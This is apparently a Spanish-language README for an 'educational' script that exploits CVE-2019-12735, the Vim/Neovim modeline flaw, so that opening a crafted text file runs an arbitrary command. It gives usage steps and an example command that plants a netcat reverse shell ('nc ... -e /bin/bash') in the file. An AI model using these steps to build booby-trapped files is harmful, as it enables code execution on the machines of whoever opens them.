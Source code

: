 # modeline-vim
_Script con fines educativos que explota la vulnerabilidad de vim._
## Introducción.
_El script aprovecha la vulnerabilidad([CVE-2019-12735](#referencias)) de Vim < 8.1,1365 y Neovim < 0.3.6 que permite ejecutar código dentro de un archivo de texto por medio de modelines al momento de abrirlo. Dicho script fue desarrollado con fines educativos y queda bajo responsabilidad de quien lo usa_
## Instrucciones.
_Se recomienda que se abra con el editor emacs o algún otro editor de texto que sea vim, ya que se ejecuta la vulnerabilidad y distorsiona el archivo :smile:. En caso de que se desea usar vim se debe de desabilitar el modelines (**:set nomodeline**)._

_modeline.sh requiere solamente de un parámetro, el cual tiene que ser un comando con sus respectivos parámetros(opcional)._
```
chmod 700 modeline.sh
modeline.sh _comando_ > archivoTexto.
```
### Ejemplo.
_Se utilizará el comando nc para realizar un shell inverso._
```
modeline.sh nc 127.0.0.1 8888 -e /bin/bash > datos.txt
```
## Referencias.
[PoC](https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md#summary)

[CVE-2019-12735](https://nvd.nist.gov/vuln/detail/CVE-2019-12735)
